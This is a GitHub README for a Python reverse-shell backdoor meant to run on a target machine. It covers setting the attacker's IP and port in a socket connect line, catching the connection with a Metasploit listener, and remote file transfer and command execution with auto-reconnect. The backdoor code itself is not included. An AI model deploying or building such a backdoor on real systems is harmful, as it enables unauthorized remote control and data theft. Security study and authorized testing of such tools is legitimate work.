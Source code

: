 # Kali-Linux-Backdoor

This script is a simple remote administration tool that establishes a reverse shell connection between a target machine and a kali linux machine. It allows the kali linux machine to utilize a server paired with this backdoor script to execute commands on the remote machine such as upload and download files, navigate through the target machines file system etc.

## Prerequisites

Before using this script, ensure that you have the following:

- Python 3.x installed on both the client and server machines.
- Knowledge of the IP address and port where the server will be listening.

## Usage

1. Update the IP address and port number in the `connection()` function to match the server's IP address and port.
   s.connect(('192.168.x.xxx',55xx))  # Update IP address and port number
2. Run the script on the target machine and the server on the kali machine.
3. Run a listener on the server machine to receive the incoming connection. Such as those offered by the MSF console.
4. Once the connection is established, you can interact with the remote machine through commands such as:

### Available Commands

- `quit`: Terminate the remote connection.
- `clear`: Clear the screen.
- `cd [directory]`: Change the current working directory on the remote machine.
- `download [file]`: Upload a file from the remote machine to the client machine.
- `upload [file]`: Download a file from the client machine to the remote machine.
- Any other command will be executed on the remote machine, and the result will be sent back to the client.

Note: The script automatically attempts to reconnect every 20 seconds if the connection is lost.


## Disclaimer
This script is intended for educational and authorized testing purposes only. Unauthorized use of this script is strictly prohibited. Use at your own risk. The author assumes no responsibility for any misuse or damage caused by this script.
